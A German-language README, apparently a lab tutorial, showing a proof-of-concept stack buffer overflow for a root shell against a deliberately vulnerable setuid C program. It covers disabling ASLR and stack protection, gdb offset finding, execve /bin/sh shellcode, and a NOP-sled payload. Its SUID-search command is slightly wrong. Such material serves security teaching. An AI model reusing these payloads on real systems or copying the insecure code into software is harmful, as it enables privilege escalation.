







# Buffer-Overflow-Attack - Proof of concept

Ziel des Angriffs ist es, eine Root-Shell auf dem System zu erhalten.
Dazu suchen wir ein Programm auf dem System, das mit Root-Rechten arbeitet und angreifbar ist. 
Interessante Programme erkennt man z.B. daran, dass sie das SETUID Flag gesetzt haben und der Besitzer root ist. 
Wir können solche Programme mit `find . -perm /4000 | grep root` suchen. Ob das Programm angreifbar ist, wissen wir 
erst wenn wir es testen oder durch Reverse-Engineering untersuchen. In unserem Fall schreiben wir uns einfach so ein Programm.
<br><br>
Für dieses Beispiel wurde ein Linux Mint 20.3 x86_64 mit Kernel 5.4.0-110-generic verwendet.
<br><br>

___

## Schritt 1: ASLR deaktivieren
Address Space Layout Randomization sorgt dafür, dass Programmen zufällige Adressbereiche zugewiesen werden, 
wodurch Buffer-Overflow-Angriffe erschwert werden sollen. Wir deaktivieren das für unseren Angriff.

```bash
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```
<br>

___
## Schritt 2: Angreifbares Programm schreiben

vuln.c:
```C
#include <stdio.h>
#include <string.h>

int main(int argc, char *argv[]){
    if(argc > 1){
        setuid(0);                  // Das Programm erhält hier root Rechte
        char buffer[500];
        strcpy(buffer, argv[1]);    // Diese Zeile ermöglicht den Buffer-Overflow
        printf("%s\n", buffer);
    }
}
```        
<br>

___
## Schritt 3: Programm so kompilieren, dass es angreifbar ist

```bash
gcc vuln.c -fno-stack-protector -z execstack -o vuln
sudo chown root vuln
sudo chmod 4755 vuln
```

Normalerweise wird durch sog. Stack Canaries der Stack vor Stack-Smashing-Angriffen geschützt. 
Der Prolog einer Funktion speichert zufällige Daten vor der Return-Adresse einer Funktion und der 
Epilog der Funktion überprüft, ob dieser Wert verändert wurde. Wenn ja wird von einem Buffer-Overflow ausgegangen.
Wir deaktivieren das durch `-fno-stack-protector`.

Mit `-z execstack` lassen wir zu, dass Instruktionen auf dem Stack ausgeführt werden.

Mit `sudo chown root vuln` ändern wir den Besitzer des Programms zu root.
Mit `sudo chmod 4755 vuln` setzen wir das setuid flag.
<br><br>

___
## Schritt 4 (Optional): PEDA-Erweiterung für gdb installieren

https://github.com/longld/peda

Python Exploit Development Assistance (PEDA) erweitert GDB um einige Befehle und gestaltet die 
Ausgabe von GDB wesentlich informativer.
<br><br>

___
## Schritt 5: Größe des Buffers, bzw. Offset zu Rücksprungadresse herausfinden

Wir öffnen das Programm mit dem GNU Debugger und untersuchen die Speicheradressen der main-Funktion.

```bash
gdb vuln
disas main
```


Wie setzen einen Breakpoint vor der leave-Funktion.

```
break *0x00005555555551f1
```
und starten dann das Programm neu, mit einigen A's als Eingabe

```
run AAAAAAAA
```

Wenn das Programm am Breakpoint stoppt, untersuchen wir die Adresse, auf die das Befehlsregister (RIP) zeigt und merken sie uns.

```
info frame
```


Nun untersuchen wir den Stack um die Adresse zu finden, an der der Buffer beginnt.

```
x/100xw $rsp
```


Unsere A's finden wir ab Adresse 0x7fffffffde20. Wir subtrahieren nun diese Adresse von der Adresse, auf die das RIP zeigt um den Offset zwischen ihnen zu erhalten.

0x7fffffffe028 - 0x7fffffffde20 = 208
Umgerechnet in dezimal: (2 × 16²) + (0 × 16¹) + (8 × 16⁰) = (520)₁₀

Der Offset zwischen Start des Buffers und der Return-Adresse ist also 520 Byte. 
Wir verifizieren das, indem wir den Buffer mit 520 A's füllen, gefolgt von 6 Byte B's. Das Programm sollte dann mit einem Segmentation-Fault abbrechen, nachdem versucht wurde auf die Adresse 0x0000424242424242 zu springen.

```bash
del 1  // Breakpoint entfernen
run $(python3 -c "import sys;sys.stdout.buffer.write(b'\x41'*520+b'\x42'*6)")
```

Das \x41 steht für ein 'A', \x42 für B.




___
## Schritt 6: Einsprungadresse für unseren Schadcode finden


In gdb nach segementation-fault mit `x/500 $rsp` den Stack untersuchen (500 je nach Größe des Buffers anpassen).
Der Buffer wächst hier in die hohen Adressen, also nach unten, der Stack an sich aber nach oben (Daher 
funktioniert dieser Angriff überhaupt). Irgendwo in der Mitte der ganzen \x41 eine Adresse merken und in hexadezimaler 
Darstellung (little-endian) aufschreiben.




Aus 0x7fffffffe2f0 wird z.B. \xf0\xe2\xff\xff\xff\x7f

Die Adresse als letzte 6 Byte in unseren Input schreiben (statt den \x42) und überprüfen, ob das nun die Return-Adresse 
beim Segmentation-Fault ist.
<br><br>

___
## Schritt 7: Shellcode erstellen

Den Shellcode können wir nicht einfach mit C schreiben, da der Compiler an mehreren Stellen ein String-Terminalsymbol 
einfügen würde (z.B. nach /bin/sh), was die Funktion strcpy, die wir ausnutzen wollen, zum Abbruch bewegen würde. 
Wir schreiben den Code daher in Assemblersprache, ohne eine Null (String-Terminalsymbol) in den Code zu schreiben. Für eine Null z.B. Register mit sich selbt XOR verknüpfen. Danach erzeugen wir daraus eine ausführbare Datei und nutzen dann einen Disassembler, 
um aus der Datei wieder Assemblercode zu erzeugen. Diesmal sehen wir dann aber die Hexwerte der Assemblerbefehle und können 
sie in unseren Exploitcode einfügen.

### Assembler Code schreiben
```asm
shellcode.asm:    
    section .bss
    section .data
    section .text
        global _start

    _start:
      xor   rdx, rdx
      mov   qword rbx, '//bin/sh'
      shr   rbx, 0x8
      push  rbx
      mov   rdi, rsp
      push  rax
      push  rdi
      mov   rsi, rsp
      mov   al, 0x3b
      syscall
```

### Ausführbare Datei erstellen (ELF)
```bash
nasm -f elf64 -o shellcode.o shellcode.asm
```
### Shellcode testen
```bash
ld -o shell shellcode.o
./shell
```
### Shellcode in Hex erstellen

#### Disassembler über ELF-Datei laufen lassen, um Hexwerte der Assemblerbefehle zu sehen
```bash
objdump -d shellcode.o
```

#### Den Hexcode aus dem dump kopieren
48 31 d2
48 bb 2f 2f 62 69 6e
2f 73 68
48 c1 eb 08
53
48 89 e7
50
57
48 89 e6
b0 3b
0f 05

#### Alles als Hex umschreiben
\x48\x31\xd2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05
<br><br>

___
## Schritt 8: Shellcode in Programmeingabe einbauen
Länge des Hexcodes herausfinden. In unserem Beispiel sind es 30 Bytes.

Im Python Script soviele Bytes von den 'A's abziehen und dahinter den Shellcode einfügen.

```bash
run $(python3 -c "import sys;sys.stdout.buffer.write(b'\x41'*490+b'\x48\x31\xd2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05'+b'\xf0\xe2\xff\xff\xff\x7f')")
```

Die 'A's im Pythonscript durch NOP's ersetzen (\x90). Wird ein NOP vom Programm angesprungen, wird einfach der IP um eins 
hochgezählt, bis ein gültiger Befehl gefunden wird (NOP-Rutsche). Bei uns also unser Shellcode.
```bash
run $(python3 -c "import sys;sys.stdout.buffer.write(b'\x90'*490+b'\x48\x31\xd2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05'+b'\xf0\xe2\xff\xff\xff\x7f')")
```
<br>

___
## Schritt 9: Exploit
Python-Script in neue Datei exploit.py schreiben und dann
```bash
./vuln `python3 exploit.py`
```
